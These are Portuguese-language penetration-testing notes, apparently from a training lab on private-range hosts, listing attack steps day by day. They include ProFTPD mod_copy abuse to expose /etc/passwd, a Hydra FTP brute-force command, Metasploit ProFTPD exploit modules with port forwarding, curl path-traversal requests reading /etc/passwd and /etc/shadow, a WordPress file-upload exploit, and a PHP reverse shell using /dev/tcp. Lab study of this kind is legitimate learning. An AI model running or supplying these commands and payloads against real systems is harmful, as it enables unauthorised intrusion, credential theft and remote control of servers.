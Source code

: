	*criação de world list com dados do link (link na página local)
	
	*nc ip port
		site cpfr /etc/passwd
		site cpto  /var/www/html/passwd
		
			http://192.168.100.8/passwd
			
		*criação lista de users
			mg
			af
			dg
			aw
			
		*hydra pra brute force ftp
			-L userlist.txt -P passlist.txt  192.168.100.8 ftp
			
		* msfconsole unix/ftp/proftpd_modcopy_exec
			entrar shell interativo
				python pty...
			sudo -l
			sudo /home/dg/bd/sbin/proftpd
			
			upar para meterpreter
				session -u sessão
				
				portfwd add -L 127.0.0.1 -l 2121 -p 2121 -r 127.0.0.1
				
				use exploit/unix/ftp/proftpd_133c_backdoor 
				
				set payload
				


#Dia 6 			12/9/2020

	*scan
	
	*enumeração diretórios web
		dirb 
		
	
	*(manualemnte) curl
		curl -s --data-urlencode urlConfig=../../../../../../../../../etc/passwd http://192.168.100.9/administrator/alerts/alertConfigField.php?
		
		curl -s --data-urlencode urlConfig=../../../../../../../../../etc/shadow http://192.168.100.9/administrator/alerts/alertConfigField.php?

		
	*ssh

#Dia 7 			13/9/2020

	*scan alvo
	
	*enumerar plugins wp
		WordPress Plugin Reflex Gallery 3.1.3 - Arbitrary File Upload
			criar um html
	*criar um shell reverse
		<?php
			exec("/bin/bash -c 'bash -i >& /dev/tcp/my_ip/porta 0 >&1' ");		
		?>
